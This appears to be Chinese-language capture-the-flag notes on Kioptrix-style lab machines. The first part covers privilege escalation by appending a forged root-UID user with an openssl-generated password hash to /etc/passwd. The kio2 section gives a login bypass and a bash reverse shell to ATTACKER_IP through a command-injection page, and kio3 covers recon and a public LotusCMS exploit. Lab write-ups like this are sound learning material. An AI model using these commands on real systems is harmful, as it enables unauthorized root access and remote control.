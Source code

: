 1. ​**​操作流程​**​
    
    - ​**​读取输入文件​**​：打开第一个参数指定的文件（`sys.argv[1]`），读取全部内容

    - ​**​追加写入输出文件​**​：将读取的内容追加到第二个参数指定的文件（`sys.argv[2]`）末尾
        
好东西啊 其实 将第一个文件的东西追加到第二个文件

就可以添加用户到/etc/passwd中啊

openssl用法

```
openssl passwd -1 -salt admin 123456
```

构造admin用户密码为123456的hash

```
/etc/passwd格式
admin:$1$ccc$tK1vhSYd21dUn8Z0EC/Pl0:0:0:root:/root:/bin/bash
```

执行代码之后 记得切换用户 就能提权了

![image.png](https://s2.loli.net/2025/04/15/INwdafuhzqKTZPM.png)


#### ​**​代码执行示例​**

# kio2思路
## nmap扫描端口
发现有一个登录界面 用万能密码成功登录

## 命令注入？
登录进去是个命令注入界面

用了bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 来反弹shell

## 信息收集

是用内核提权
# kio3思路
## nmap扫描端口

## dirsearch字典爆破 查看网址还有啥路径
有一个phpmyadmin 一个图库和一个登录界面

先看看登录界面  是LotusCMS 看看能不能利用历史漏洞 

github找到一个脚本可以攻击这个lotuscms
